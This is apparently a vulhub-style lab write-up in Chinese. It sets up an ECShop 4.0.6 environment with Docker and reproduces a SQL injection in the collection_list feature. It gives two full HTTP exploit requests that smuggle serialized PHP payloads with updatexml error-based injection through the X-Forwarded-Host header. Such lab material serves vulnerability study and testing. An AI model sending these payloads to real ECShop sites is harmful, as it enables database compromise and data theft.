 # ECShop 4.x Collection List SQL注入漏洞

ECShop是一个流行的开源电子商务系统。在ECShop 4.x版本的`collection_list`功能中存在SQL注入漏洞，攻击者可以通过`insert_`函数执行任意SQL查询。

参考链接：

- <https://mp.weixin.qq.com/s/xHioArEpoAqGlHJPfq3Jiw>
- <http://foreversong.cn/archives/1556>

## 环境搭建

执行如下命令启动ECShop 4.0.6：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`进入安装向导。在安装过程中：

- 将数据库地址设置为`mysql`
- 将数据库用户名和密码都设置为`root`

## 漏洞复现

此漏洞原理与[xianzhi-2017-02-82239600](https://github.com/vulhub/vulhub/tree/master/ecshop/xianzhi-2017-02-82239600)类似，可以利用任意`insert_`函数进行SQL注入。

有多个`insert_`函数可以用于漏洞利用。例如，使用`insert_user_account`：

```http
GET /user.php?act=collection_list HTTP/1.1
Host: your-ip:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953auser_account|a:2:{s:7:"user_id";s:38:"0'-(updatexml(1,repeat(user(),2),1))-'";s:7:"payment";s:1:"4";}|45ea207d7a2b68c49582d2d22adf953a
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b1398a0fdc189b691a6f1c969911ac1eea8fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8bddd69b3b81efbe441a185ac52e7d24852d87;PHPSESSID=bb2033d66975ff7c2be29896d2d4260c;real_ipd=172.18.0.1;
Connection: close

```

![](1.png)

注意：在尝试漏洞利用之前，必须先以普通用户身份登录。

另外，你也可以使用`insert_pay_log`，如下例所示：

```http
GET /user.php?act=collection_list HTTP/1.1
Host: 192.168.1.162:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953apay_log|s:44:"1' and updatexml(1,repeat(user(),2),1) and '";|
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b1398a0fdc189b691a6f1c969911ac1eea8fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8bddd69b3b81efbe441a185ac52e7d24852d87;PHPSESSID=bb2033d66975ff7c2be29896d2d4260c;real_ipd=172.18.0.1;
Connection: close

```

![](2.png)
